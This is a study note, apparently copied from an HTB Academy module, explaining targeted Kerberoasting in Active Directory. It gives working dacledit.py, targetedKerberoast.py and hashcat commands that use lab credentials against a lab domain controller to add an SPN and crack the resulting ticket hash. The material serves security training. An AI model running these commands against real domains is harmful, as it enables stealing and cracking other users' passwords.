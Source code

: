 
---
---
[Kerberoasting](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/detecting-ldap-based-kerberoasting-with-azure-atp/ba-p/462448) is a post-exploitation attack that takes advantage of the way `Service Principal Names` (`SPNs`) are used in Active Directory for authentication. When a client requests a Kerberos TGS service ticket, it gets encrypted with the service account’s NTLM password hash. An attacker can obtain this ticket and perform offline password cracking to open it. If successful, the attacker can obtain the service account’s password. The success of this attack depends on the strength of the service account’s password. (Review the [Kerberos Attacks](https://academy.hackthebox.com/module/details/25) module to learn about `Kerberoasting` and other `Kerberos` attacks.)

When an attacker possesses an account with the ability to edit the `servicePrincipalName` attribute of another user account in a domain, they can potentially make that account vulnerable to a `Kerberoasting` attack. By adding an `SPN` to the user account, the attacker can request a Kerberos TGS service ticket for that `SPN` and obtain it, encrypted with the user account's NTLM password hash. The attacker can then use offline password-cracking techniques to try to open the ticket and obtain the user account's password.

This is possible when the controlled account has `GenericAll`, `GenericWrite`, `WriteProperty`, `WriteSPN` or `Validated-SPN` over the target.

## Identifying Vulnerable Accounts

![targeted_kerberoast_bloodhound.png](https://academy.hackthebox.com/storage/modules/219/targeted_kerberoast_bloodhound.png)

```bash
python3 examples/dacledit.py -principal pedro -target Rita -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01
```

## Targeted Kerberoasting From Linux

```bash
anas21@htb[/htb]$ python3 targetedKerberoast.py -vv -d inlanefreight.local -u pedro -p SecuringAD01 --request-user rita --dc-ip 10.129.205.81
```

## Cracking the kerberoastable hash

```bash
anas21@htb[/htb]$ hashcat -m 13100 /tmp/rita.hash /usr/share/wordlists/rockyou.txt --force
```

---
---
## Note

```c
Note: If we get the error "Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)" while running targetedKerberoast.py or any other tool from Linux that use Kerberos as an authentication protocol, we need to sync the Linux machine's clock with the Active Directory DC's clock, using the ntpdate command, for example, sudo ntpdate DC_IP_ADDRESS.
```


```c
sudo apt install ntpdate -y
sudo ntpdate 10.129.205.81
```

---
---